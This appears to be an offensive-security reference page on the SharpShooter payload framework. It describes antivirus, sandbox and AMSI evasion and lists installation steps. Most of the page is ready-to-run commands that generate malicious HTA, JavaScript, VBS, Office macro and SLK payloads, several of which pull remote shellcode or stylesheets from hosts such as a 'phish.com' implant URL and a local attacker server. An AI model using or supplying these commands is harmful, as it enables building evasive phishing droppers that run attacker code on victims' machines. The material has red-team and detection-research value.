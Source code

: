 # ⭕ SharpShooter

A payload creation framework for the retrieval and execution of arbitrary C# source code in a variety of formats, such HTA, JS, VBS, JSE, VBA, VBE and WSF.

{% hint style="info" %}
Those payloads are RC4 encrypted with a random key to provide some modest anti-virus evasion, and the project includes the capability to integrate sandbox detection and environment keying to assist in evading detection. SharpShooter targets v2, v3 and v4 of the .NET framework which will be found on most end-user Windows workstations.
{% endhint %}

#### <mark style="color:green;">Features:</mark>

* `Sandbox Detection` : several default techniques to evade detection, including identifying tools
* `Stageless Execution` : with ability to inject an in-memory shellcode directly into the process, this framework supports full fileless mode
* `XSL Exploitation` : (Squiblytwo) bypasses signatures and security solutions by executing XSL (eXtensible Stylesheet Language) full trust scripts from the WMIC command line
* `Squiblydoo and Squiblytwo` support: COM Staging and XSL Exploitation directly through COM
* `AMSI Bypass` : uses XPath expression on the XSL file to bypass Windows Defender AMSI signature

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

{% embed url="https://www.mdsec.co.uk/2019/02/macros-and-more-with-sharpshooter-v2-0" %}

### <mark style="color:orange;">Installation</mark>

```
sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
cd SharpShooter/
apt install python-pip
sudo pip install -r requirements.txt
```

## <mark style="color:red;">Generating Payloads</mark>

### <mark style="color:orange;">Stageless JavaScript</mark>

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

### <mark style="color:orange;">Stageless HTA</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

### <mark style="color:orange;">Staged VBS</mark>

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

### <mark style="color:orange;">Custom CSharp inside VBS</mark>

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

### <mark style="color:orange;">Squiblytwo VBS</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

### <mark style="color:orange;">XSL HTA</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

### <mark style="color:orange;">VBA Macro</mark>

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

### <mark style="color:orange;">Excel 4.0 SLK Macro Enabled Document</mark>

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```
